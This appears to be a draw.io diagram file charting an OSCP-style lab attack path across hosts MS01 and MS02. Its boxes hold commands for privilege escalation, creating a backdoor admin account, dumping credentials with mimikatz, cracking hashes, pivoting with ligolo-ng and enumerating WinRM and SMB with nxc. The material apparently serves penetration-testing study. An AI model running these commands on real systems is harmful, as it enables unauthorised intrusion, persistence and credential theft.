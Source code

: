 <mxfile version="27.1.6">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Page-1">
    <mxGraphModel dx="6170" dy="2458" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="0bsg29gYugO094JGQ751-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="220" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial access with credentials" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="80" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-1" target="0bsg29gYugO094JGQ751-5" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="80" y="200" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-1" value="MS01" style="rhombus;whiteSpace=wrap;html=1;fillColor=light-dark(#FFFFFF,#FF0000);" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="150" width="100" height="50" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-53" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-5" target="0bsg29gYugO094JGQ751-52" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-5" target="fJw2BMpg4anfNU4B0Cz6-47">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-5" value="&lt;span style=&quot;font-weight: 400;&quot;&gt;On MS01&lt;/span&gt;" style="swimlane;whiteSpace=wrap;html=1;startSize=40;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-220" y="260" width="320" height="730" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-10" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-5" source="0bsg29gYugO094JGQ751-6" target="0bsg29gYugO094JGQ751-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-6" value="winpeas.exe &amp;gt; win.txt 2&amp;gt;&amp;amp;1" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="40" y="50" width="240" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-9" value="Escalate to admin" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="100" y="100" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-5" source="0bsg29gYugO094JGQ751-13" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="230" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-13" value="Create backdoor admin account" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="100" y="160" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-5" source="0bsg29gYugO094JGQ751-9" target="0bsg29gYugO094JGQ751-13" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-5" target="0bsg29gYugO094JGQ751-16" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="280" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-14" value="net user rottenadmin Password1 /add&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;net localgroup administrators rottenadmin /add&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="25" y="230" width="270" height="50" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-5" source="0bsg29gYugO094JGQ751-16" target="0bsg29gYugO094JGQ751-18" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-16" value="Enumerate hashes and passwords" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="100" y="300" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-21" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-5" source="0bsg29gYugO094JGQ751-18" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="550" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-18" value="mimikatz.exe&lt;div&gt;&lt;br&gt;&lt;div&gt;privilege::debug&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;sekurlsa::dpapi&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;sekurlsa::logonpasswords&lt;/div&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="35" y="400" width="250" height="130" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-23" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-5" source="0bsg29gYugO094JGQ751-20" target="0bsg29gYugO094JGQ751-22" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-20" value="Crack password hashes" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="100" y="550" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-22" value="hashcat hashes.txt /usr/share/wordlists/rockyou.txt" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-5" vertex="1">
          <mxGeometry x="10" y="640" width="300" height="60" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-24" value="&lt;span style=&quot;font-weight: 400;&quot;&gt;ligolo-ng&lt;/span&gt;" style="swimlane;whiteSpace=wrap;html=1;startSize=40;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="150" y="260" width="330" height="710" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-40" value="setup a pivot into the interal network" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-24" vertex="1">
          <mxGeometry x="95" y="50" width="140" height="70" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-41" value="On kali" style="swimlane;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-24" vertex="1">
          <mxGeometry x="20" y="140" width="290" height="220" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-47" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-41" source="0bsg29gYugO094JGQ751-42" target="0bsg29gYugO094JGQ751-46" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-42" value="sudo ligolo-proxy -selfcert" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-41" vertex="1">
          <mxGeometry x="10" y="40" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-45" value="sudo ip route add &amp;lt;ip range&amp;gt;/24 dev ligolo0" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-41" vertex="1">
          <mxGeometry x="10" y="170" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-41" source="0bsg29gYugO094JGQ751-46" target="0bsg29gYugO094JGQ751-45" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-46" value="&lt;div&gt;ifcreate ligolo0&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;tunnel_start --tun ligolo0&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-41" vertex="1">
          <mxGeometry x="10" y="90" width="270" height="60" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-43" value="On MS01" style="swimlane;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-24" vertex="1">
          <mxGeometry x="20" y="380" width="290" height="90" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-44" value="agent.exe -connect &amp;lt;KALI_IP&amp;gt;:11601" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-43" vertex="1">
          <mxGeometry x="10" y="40" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-6" value="&amp;nbsp;Cleanup" style="swimlane;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-24" vertex="1">
          <mxGeometry x="20" y="510" width="290" height="170" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-6" source="K5Gh5GtL-8Vc5NBjFgpw-8" target="K5Gh5GtL-8Vc5NBjFgpw-11" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-8" value="sudo ip route del &amp;lt;ip&amp;gt;/24 dev ligolo0" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-6" vertex="1">
          <mxGeometry x="10" y="40" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-11" value="&lt;div&gt;sudo ip link down dev ligolo0&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;sudo ip link delete dev ligolo0&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-6" vertex="1">
          <mxGeometry x="10" y="90" width="270" height="60" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-49" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.458;entryY=0;entryDx=0;entryDy=0;entryPerimeter=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-1" target="0bsg29gYugO094JGQ751-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-56" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-51" target="0bsg29gYugO094JGQ751-55" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-70" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-51" target="0bsg29gYugO094JGQ751-71" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="-280" y="1190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-51" value="MS02" style="rhombus;whiteSpace=wrap;html=1;fillColor=light-dark(#FFFFFF,#FF3333);" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-130" y="1150" width="140" height="80" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-54" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-52" target="0bsg29gYugO094JGQ751-51" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-52" value="Used Hashes or plaintext credentials on MS02" style="ellipse;whiteSpace=wrap;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-120" y="1030" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-55" value="Initial Enumeration" style="swimlane;whiteSpace=wrap;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1150" y="1290" width="1250" height="740" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-77" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-60" target="0bsg29gYugO094JGQ751-76" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-79" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-60" target="0bsg29gYugO094JGQ751-78" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-60" value="nxc winrm -u &amp;lt;user&amp;gt; -p &amp;lt;password&amp;gt; &amp;lt;ip_range&amp;gt; -d oscp.exam" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="130" width="353" height="40" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-62" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-61" target="0bsg29gYugO094JGQ751-60" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-61" value="Enumerate users with winrm access" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="122.5" width="150" height="55" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-66" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-64" target="0bsg29gYugO094JGQ751-65" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-64" value="Enumerate SMB shares and content" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="210" width="150" height="55" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-81" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-65" target="0bsg29gYugO094JGQ751-80" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-83" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.25;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-65" target="0bsg29gYugO094JGQ751-82" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-65" value="&lt;span style=&quot;font-family: Nunito, &amp;quot;Segoe UI Emoji&amp;quot;; text-align: start; white-space: pre;&quot;&gt;&lt;font style=&quot;color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255)); font-size: 12px;&quot;&gt;nxc smb &amp;lt;ip_range&amp;gt; -u &#39;&amp;lt;user&amp;gt;&#39; -p &#39;&amp;lt;password&amp;gt;&#39; -M spider_plus&lt;/font&gt;&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="221.25" width="380" height="32.5" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-67" value="&lt;span style=&quot;font-family: Nunito, &amp;quot;Segoe UI Emoji&amp;quot;; text-align: start; white-space: pre;&quot;&gt;&lt;font style=&quot;font-size: 12px; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;nxc smb &amp;lt;dc_ip&amp;gt; -u &#39;&amp;lt;user&amp;gt;&#39; -p &#39;&amp;lt;password&amp;gt;&#39; --users&lt;/font&gt;&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="302.5" width="380" height="30" as="geometry" />
        </mxCell>
